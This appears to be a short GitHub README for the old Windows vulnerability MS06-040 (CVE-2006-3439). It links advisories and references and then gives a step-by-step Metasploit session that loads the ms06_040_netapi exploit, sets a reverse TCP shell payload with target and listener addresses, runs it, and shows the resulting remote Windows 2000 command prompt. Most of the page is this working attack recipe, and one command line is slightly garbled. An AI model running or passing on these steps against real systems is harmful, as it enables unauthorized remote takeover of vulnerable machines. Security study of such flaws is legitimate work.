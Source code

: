 # MS06-040

MS06-040

Vulnerability reference:
 * [MS06-040](https://technet.microsoft.com/library/security/ms06-040)
 * [CVE-2006-3439](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3439)  
 * [exp-db](https://www.exploit-db.com/exploits/2355/)  

## msf Usage
* [YouTube-ms06-040](https://www.youtube.com/watch?v=AsZ8qTr7IoE)
```
msf > search ms06_040
msf > use exploit/windows/smb/ms06_040_netapi
msf exploit(ms06_040_netapi) > show payloads 
msf exploit(ms06_040_netapi) > set payload windows/shell/reverse_tcp
msf exploit(ms06_040_netapi) > set RHOST 192.1.80.2 
msf exploit(ms06_040_netapi) > set LHOST 192.1.80.152 
msf exploit(ms06_040_netapi) > set TARGET 0TARGET -> 0
msf exploit(ms06_040_netapi) > exploit
session -i 1

Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.
C:\WINNT\system32>
```  

## References
* [深入浅出MS06-040](http://blog.csdn.net/iiprogram/article/details/2820149)
* [How to Exploit MS06-040](https://www.linickx.com/how-to-exploit-ms06-040)


